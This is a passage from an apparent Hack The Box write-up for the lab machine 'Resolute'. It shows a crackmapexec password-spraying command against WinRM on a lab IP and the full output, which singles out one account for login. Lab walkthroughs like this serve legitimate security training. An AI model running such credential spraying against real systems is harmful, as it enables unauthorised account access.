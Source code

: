 ```bash
sally
steve
sunita
ulf
zach
```

Started password spraying on the `winrm`<br/>
```bash
root@w0lf:~/CTF/HTB/Boxes/Resolute# crackmapexec winrm 10.10.10.169 -u usernames.txt -p 'Welcome123!'
WINRM       10.10.10.169    5985   NONE             [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   NONE             [-] None\abigail:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\Administrator:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\angela:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\annette:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\annika:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\claire:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\claude:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\felicia:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\fred:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\Guest:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\gustavo:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\marcus:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\marko:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\melanie:Welcome123! "Access is denied.  (extended fault data: {'transport_message': 'Bad HTTP response returned from server. Code 500', 'http_status_code': 500, 'wsmanfault_code': '5', 'fault_code': 's:Sender', 'fault_subcode': 'w:AccessDenied'})"
WINRM       10.10.10.169    5985   NONE             [-] None\naoki:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\paulo:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\per:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\ryan:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\sally:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\steve:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\sunita:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\ulf:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\zach:Welcome123! "the specified credentials were rejected by the server"
```
We get `Access is Denied` for use `melanie` so let's try login with that.
